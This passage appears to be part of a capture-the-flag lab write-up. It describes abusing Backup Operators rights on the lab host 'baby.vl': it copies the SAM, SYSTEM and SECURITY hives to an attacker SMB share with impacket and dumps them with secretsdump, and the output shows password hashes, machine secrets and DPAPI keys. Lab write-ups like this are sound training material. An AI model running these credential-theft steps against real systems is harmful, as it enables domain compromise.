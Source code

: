 
## Privilege Escalation

Checking the user permissions using `whoami /all` we can see that the user is part of `Backup Operators` group. This group allows the user to read and backup any file on the machine. Lets abuse this to get the domain credentials. We can use impacket's `reg` script to obtain the `SAM, SYSTEM and SECURITY` hives


Lets start an smbshare to copy the hive locally and start the command
```
smbserver.py -smb2support "someshare" "./"
```

```
impacket-reg "baby.vl"/"Caroline.Robinson":'P@ssword!'@'10.10.95.204' backup -o '\\IP\someshare'
...
[*] Saved HKLM\SYSTEM to \\IP\someshare\SAM.save
[*] Saved HKLM\SYSTEM to \\IP\someshare\SYSTEM.save
[*] Saved HKLM\SECURITY to \\IP\someshare\SECURITY.save
```
Using impackets `sercretsdump` we can read the hives and get credentials

```
impacket-secretsdump -sam SAM.save -security SECURITY.save -system SYSTEM.save local
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:172ae39fa89219c89eb0f2aef82336fb8cb620527bfdb510d8270cc20d3f68fafbdda2c61ffb309c404fb446595bbeceb2053a50f18aef717094f23831f968e97aa2f6374b7351b80da44265e35970327070d421f441d93dcbf15357f5bd8524c59604a1dfd99dfa786d550aff176c9b1fdd669b04a27069e8e7c0ddb3a36fcf6349dff508b66c551214f565a9a58748d924dbf9eca372da7b46dc9d39c9ceb9b5c07dc95abaed4ffebed83c2ae5fb3c09601d0fd68e3191576d78962d7dbbff927b4afb2a227a374cf942fb4ceb69ff22886e1264a3f46beaef0f51da182543408d1250f2a497ac08a82507620e95e4
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:cdb49927a4d541b2d6c67f3034265164
[*] DPAPI_SYSTEM
dpapi_machinekey:0xe620195f1a5e2d71842bbad9877d7c3ca8a31eda
dpapi_userkey:0x026920834cd39c2e8ba9401c44a8869fe6be0555
[*] NL$KM
 0000   B6 96 C7 7E 17 8A 0C DD  8C 39 C2 0A A2 91 24 44   ...~.....9....$D
 0010   A2 E4 4D C2 09 59 46 C0  7F 95 EA 11 CB 7F CB 72   ..M..YF........r
 0020   EC 2E 5A 06 01 1B 26 FE  6D A7 88 0F A5 E7 1F A5   ..Z...&.m.......
 0030   96 CD E5 3F A0 06 5E C1  A5 01 A1 CE 8C 24 76 95   ...?..^......$v.
NL$KM:b696c77e178a0cdd8c39c20aa2912444a2e44dc2095946c07f95ea11cb7fcb72ec2e5a06011b26fe6da7880fa5e71fa596cde53fa0065ec1a501a1ce8c247695
[*] Cleaning up...
```
Trying to auth with the Administrator credentials fails as this is the  local admin of the machine, trying with --local-auth as well fails probably due to the account being disabled
